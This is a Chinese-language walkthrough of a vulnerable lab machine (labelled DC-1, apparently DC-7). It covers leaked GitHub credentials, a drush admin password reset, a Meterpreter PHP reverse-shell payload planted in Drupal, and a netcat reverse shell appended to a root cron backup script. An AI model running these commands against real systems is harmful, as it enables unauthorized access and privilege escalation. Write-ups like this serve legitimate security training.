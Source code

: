 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.15


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.15
```

![image-20220112141640627.png](_img\assets/1652256667703-f7390db6-c819-4d76-9765-67b3fa6eef05.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务


## 漏洞发现

访问HTTP服务，主页提示我们`这个挑战并不完全是技术性的，但如果您需要诉诸暴力破解或字典攻击，您可能不会成功`

![image-20220112142045739.png](_img\assets/1652256672497-686e8dc8-f3ec-4198-9315-81d0eaccbeff.png)

查看登陆页面，登录页面显示要求我们输入 D7 用户名

![image-20220112142538255.png](_img\assets/1652256676271-b703cf20-bf5e-4994-9850-1c4b3bd9a006.png)

在首页的左下方发现一个类似于用户名的东西，熟悉twitter的就会发现这个名字类似twitter的账号

![image-20220112143946107.png](_img\assets/1652256817750-08954e9e-933b-4dd0-89aa-fb6305ada3be.png)

![image-20220112142712234.png](_img\assets/1652256822692-0bcf85bf-5407-4702-9d7e-281fbd170a81.png)

在twitter上搜索该账号，可以得到一各github地址

![image-20220112143505707.png](_img\assets/1652256831029-ca7b81f4-f2d5-4cb4-a37f-731042573c9f.png)

访问github地址，一番浏览中发现在config.php文件中暴露账户和密码

![image-20220112144310546.png](_img\assets/1652256845352-0d4dc144-d9ab-4c43-906d-395c89b80e78.png)

使用账号和密码登录后台，登陆失败

![image-20220112144426204.png](_img\assets/1652256864107-178524d6-a403-4896-b0df-1468ff1ae219.png)

在前面的端口扫描中我们发现开放了22号端口SSH服务，尝试链接

![image-20220112144548593.png](_img\assets/1652256868225-5ebbc73e-1efc-4709-a1eb-223305118868.png)

成功登录

正当一筹莫展的时候终端显示收到一封邮件，那就去查看一下吧

![image-20220112154314646.png](_img\assets/1652256888994-85968f1a-3633-4f65-bbd0-45e6a6b37ef8.png)

在邮件中查看到`/opt/scripts/backups.sh`脚本文件，而且仔细观察可以发现邮件是间隔15min发一次的，也就是说backups.sh脚本文件15min分钟运行一次。

查看backups.sh脚本文件权限和内容（养成习惯看见脚本文件就查看权限，会有意想不到的收获）

![image-20220112153838739.png](_img\assets/1652256897607-8bc8853b-49cf-41df-a9f1-e0d61086b2ce.png)

可以看到backups.sh脚本文件以root和www-data运行在同一组中

查看脚本文件

![image-20220112145537851.png](_img\assets/1652256908427-2f63cfd5-ec5c-4c29-853c-3c903a6650b8.png)

在脚本文件中发现了drush命令，百度一下

![image-20220112150122428.png](_img\assets/1652256930208-84286e23-884a-48ff-8052-6574d405214f.png)

drush命令可以修改用户密码，而drupalCMS默认存在admin账户，修改admin账户的密码

```
cd /var/www/html/
drush user-password  admin --password=123456
```

![image-20220112150454179.png](_img\assets/1652256935258-1bd12e57-50bf-4561-ad44-0c9c25966225.png)

登陆后台，成功

![image-20220112150554204.png](_img\assets/1652256939459-b2a799b1-74b2-43df-ba8c-8baacf84a2c7.png)


## 反弹shell

在后台发现我们可以新建页面

![image-20220112150813405.png](_img\assets/1652256944462-e20b9481-a7c2-4991-a0c3-041b5ca61436.png)

但是不支持php

![image-20220112150844026.png](_img\assets/1652256949287-89a9dc1e-145b-46f5-968c-5e3f63d441fb.png)

通过Drupal官网我了解到可以安装PHP代码的插件，使其支持php代码

[https://www.drupal.org/project/php/releases/8.x-1.1](https://www.drupal.org/project/php/releases/8.x-1.1)

![image-20220112151337520.png](_img\assets/1652256952869-f5d5c996-b948-4211-9146-56cea15637dc.png)

安装php插件

![image-20220112151450761.png](_img\assets/1652256956595-a198027a-5e6a-49f9-b748-66b15c887c59.png)

安装后激活模块

![image-20220112151756543.png](_img\assets/1652256960422-e65f52a4-25ab-4037-81b2-c501773e9591.png)

![image-20220112151902936.png](_img\assets/1652256963973-40c0d683-2931-4c0d-95b5-383d29f91ae6.png)

创建木马

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220112152106345.png](_img\assets/1652256979114-eef7233e-ddb9-4315-871a-c2d54fb83c5d.png)

在后台创建木马文件

![image-20220112152244204.png](_img\assets/1652256983087-1d90ea11-c978-4f8d-9d0c-0d38fa36fd22.png)

![image-20220112152322718.png](_img\assets/1652256987493-8530d371-3cac-4ae7-952a-11bf205c4d12.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

![image-20220112152451900.png](_img\assets/1652256992204-b4d5d73c-4bf3-4eb3-a10c-dfe1ff31dcde.png)

访问XMTX

![image-20220112152628533.png](_img\assets/1652256996501-deaf9f89-288b-4506-9fb8-4035c5b76336.png)

成功反弹shell

![image-20220112152650729.png](_img\assets/1652257000288-d0e28b61-748e-4322-b2d4-f76e6e759379.png)


## 提权

查看系统版本

```
cat /proc/version
cat /etc/issue
```

![image-20220112153251189.png](_img\assets/1652257004533-e6d7787f-3e79-4d1f-b530-250d31400d21.png)

在这里我感觉到了嘲讽`Please enjoy your stay(祝你在这停留的愉快)`根据这句话多半不可能是在这里提权了。

在前面我们看到backups.sh脚本文件以root和www-data运行在同一组中，并且backups.sh脚本15min运行一次。我们现在是www-data权限可以对backups.sh脚本进行操作，如果向backups.sh脚本写入恶意代码，当backups.sh脚本以root身份运行时我们就可以得到root权限。

设置监听

![image-20220112155007689.png](_img\assets/1652257017078-0567df0f-d42c-4e37-b637-cd3b0b37988e.png)

写入恶意代码

```
echo nc 192.168.1.28 12345 -e /bin/bash >> /opt/scripts/backups.sh
```

![image-20220112155129464.png](_img\assets/1652257021575-5dd51b29-9192-491a-a5c3-58f64c97ccca.png)

接下来就是等待脚本运行了（最多15min），成功反弹

![image-20220112160114748.png](_img\assets/1652257036311-d2ff6df4-7ac3-4c2d-903b-e08f2bef431d.png)


## final-flag

在root根目录下找到final-flag

![image-20220112160238050.png](_img\assets/1652257042254-2d40aab5-beee-484a-abc2-e9462c649555.png)
